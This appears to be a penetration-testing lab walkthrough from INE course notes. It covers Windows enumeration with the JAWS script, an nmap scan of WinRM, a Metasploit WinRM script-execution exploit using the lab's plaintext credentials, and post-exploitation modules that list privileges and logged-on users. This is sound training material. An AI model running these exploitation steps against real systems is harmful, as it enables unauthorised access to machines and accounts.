 > 🔬 INE LAB
>
> - Target IP: `10.2.16.155`
> - Credentials: `administrator`:`tinkerbell`
> - Automation Tools:
>   - [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
>   - Metasploit Framework

**`JAWS`** - PowerShell 2.0 script designed to help penetration testers quickly *identify potential privilege escalation vectors on Windows systems.*

```powershell
PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
```

### Enumeration & Exploitation

```bash
# Target WinRM
nmap -sV -p 5985 10.2.17.152
	5985/tcp open  http  Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

```bash
service postgresql start && msfconsole -q
search winrm
use exploit/windows/winrm/winrm_script_exec
setg RHOSTS 10.2.17.152
setg RHOST 10.2.17.152
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
run
```

![Elevated Meterpreter session](.gitbook/assets/image-20230427195211889.png)

### Metasploit Post-Exploitation

```bash
background
```

- Enumerate **current user privileges**

```bash
use post/windows/gather/win_privs
set SESSION 1
run
```

![Metasploit - post/windows/gather/win_privs](.gitbook/assets/image-20230427195457450.png)

- Enumerate **logged on users**

```bash
use post/windows/gather/enum_logged_on_users
set SESSION 1
run
```
